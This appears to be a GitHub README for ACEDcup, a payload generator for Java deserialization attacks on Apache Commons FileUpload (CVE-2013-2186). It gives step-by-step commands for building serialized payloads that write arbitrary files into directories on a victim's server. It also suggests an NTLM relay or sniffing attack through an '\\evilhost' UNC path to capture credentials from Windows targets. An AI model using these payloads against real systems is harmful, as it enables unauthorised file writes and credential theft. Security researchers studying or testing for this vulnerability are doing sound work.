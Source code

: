 # ACEDcup

ACEDcup tool is a payload generator for Java Binary Deserialization attack (ACED)

For Apache Commons FileUpload ver <= 1.3 (CVE-2013-2186) and Oracle JDK ver < 7u40

The attack works even for newer versions of the lib or Java. We can upload any content in any directory, but 
we cannot control a file name (smth like upload_f71d3547_72ed_4ae1_90fe_0d319115cd42_00000000.tmp) in this situation. Hovewer, it may be useful in some cases. 

Also we can perform a NTLM-relay/sniffing attack (using \\\\evilhost\\any\\path) if your target is on Windows OS.

## Usage
```
  1)At first, we create a serialized payload:
  java -jar aced_cup.jar /path/payload /path/target /path/out 1
  
  /path/payload - a path to a file with your payload
  /path/target - a path to a file that will be created in your victim (this will be stored in the serialized payload)
  /path/out - a path to a file with serialized payload
  0 - turn off null-byte ending if you attack a patched system (with null-byte- by default)

  2)Then we set the serialized payload to the serialized reader (if we want to test the vuln on your host) :
  java -jar ser_reader serialized_payload.txt
  
  ser_reader tries to deserialize the payload and because of a vulnerability in it's library, it creates a new file in the directory specified.

```
## Example

 ```java -jar aced_cup.jar D:\\cup_exploit\\payload.txt /home/user/test/any_name.txt D:\\cup_exploit\\serialized_payload.txt```
 
 ```java -jar ser_reader D:\\cup_exploit\\serialized_payload.txt````
